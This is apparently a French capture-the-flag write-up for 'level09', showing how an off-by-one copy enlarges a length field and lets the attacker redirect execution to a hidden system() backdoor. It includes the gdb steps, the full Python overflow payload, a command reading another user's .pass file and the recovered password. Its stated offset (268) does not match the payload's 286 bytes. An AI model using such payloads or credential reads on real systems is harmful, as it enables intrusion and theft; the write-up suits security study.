 Ce binaire s'apparente a un systeme de chat. 
En premier, il demande un username, puis, un message a envoyer. 
Le probleme se trouve dans la fonction "set_username". Dans la structure "save" un buffer
de 40 bytes est prevu pour stocker le username. Or, dans le fonction set_username, une sorte
de strcpy manuel est effectue :
    
      i = 0;
      while (i <= 40 && buf[i] != '\0')
      {
        save->username[i] = buf[i];
        i++;
      }
      
Le probleme est qu'il va y avoir 41 iterations et non 40 ! Nous allons donc pouvoir deborder
sur la variable se trouvant apres username[40] dans la structure save. En l'occurence, "length". 
Cette variable length est utilise pour la fonction "set_msg". En effet, un strncpy est effectue :

        strncpy(save->msg, buf, save->length);

"buf" contient le message rentre par l'utilisateur. Les caracteres dans ce dernier seront copies autant
de fois que la valeur de length. Cependant, nous pouvons maintenant agrandir cette valeur length.
Dans la mesure ou nous pouvons reecrire un byte de plus que prevu, cela signifie que nous pouvons 
passer au maximum 255 a la variable length. 

Une fonction cachee rentre egalement en jeu. la fonction "secret_backdoor", qui execute la commande que nous lui passerons, via system().

Il nous faut donc son adresse :

    $ gdb level09
    $ start
    $ p &secret_backdoor
    => 0x55555555488c
    
Puis trouver l'offset necessaire a l'overwrite de EIP pour y ecrire l'adresse de secret_backdoor.

    python -c "print('A'*40 + '\xce' + 'A'*286 + 'B'*8 )" > /tmp/x

    Program received signal SIGSEGV, Segmentation fault.
    0x424242424242 in ?? ()
    
L'offset est de 268 si on utilise la valeur \xce dans length.

Voici notre paylaod final :

    python -c "print('A'*40 + '\xce' + 'A'*286 + '\x8c\x48\x55\x55\x55\x55')" > /tmp/x
    cat /tmp/x - | ./level09
    
    $ whoami
    end
    $ cat /home/users/end/.pass
    j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

